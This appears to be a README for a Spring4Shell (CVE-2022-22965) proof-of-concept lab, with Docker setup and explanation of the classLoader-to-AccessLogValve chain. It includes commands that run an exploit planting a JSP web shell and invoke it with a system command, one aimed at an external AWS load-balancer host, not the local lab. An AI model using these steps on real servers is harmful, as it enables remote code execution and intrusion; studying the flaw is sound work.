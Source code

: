 # Spring4Shell PoC

Minimal example of how to reproduce CVE-2022-22965 Spring RCE.

## Getting Started

1. Run the Tomcat server in docker
    ```shell
    docker run -p 8080:8080 --rm --interactive --tty --name spring4shell rajasoun/spring4shell-tomcat:1.0
    ```
    _Add `-p 5005:5005 -e "JAVA_OPTS=-Xdebug -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"` if you want to debug remotely._

2. Vist the Kudo Board App from http://localhost:8080/spring4shell

3. Exploit the Application
    ```shell
     python3 exploits/exploit.py --url http://Iaac-Secure-stack-blue-ALB-1228966533.us-east-1.elb.amazonaws.com/spring4shell/kudos --dir "hacked" --file rce
    ```
    The exploit is going to create `rce.jsp` file in  `webapps/hacked` on the web server.

4. Use the exploit
    ```shell
    curl http://localhost:8080/hacked/rce.jsp?cmd=id
    ```
    

## Short technical explanation

1. Spring knows how to bind form fields to Java object. In our example `KudosController` handle POST requests on `/kudos` endpoint and binds form fields to the `Kudos` object.
2. `Kudos` class has two fields `id` and `content`, but actually it also has a reference to the Class object. We can use `class.module.classLoader` as a form data key to access the classloader.
3. This behaviour allows us to set public properties of classes accessible via nested reference chain from the `Kudos` class. 
4. It becomes a problem on the Tomcat server because the classloader there has [`getResources` accessor](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/loader/WebappClassLoaderBase.html#getResources()) which allows us to continue the reference chain and access one of the instances of [the `AccessLogValve` class](https://tomcat.apache.org/tomcat-9.0-doc/api/org/apache/catalina/valves/AccessLogValve.html).
5. This class is meant to write logs. We change some properties to make it write files with the name and content of our choice. We have arbitrary file write at this point.
6. We create `jsp` file with in the root of the application folder with the malicious payload. As far as `jsp` are automatically executed by the Tomcat we can navigate to it in the browser and eventually execute the payload. Now it is RCE.

## Conditions

The exploit works only on Tomcat because it has special classloader. Although the similar reference chain may exist on other web application servers as well. It is not simply discovered yet.

The exploit requires Java 9 or above because `module` property was added in Java 9.

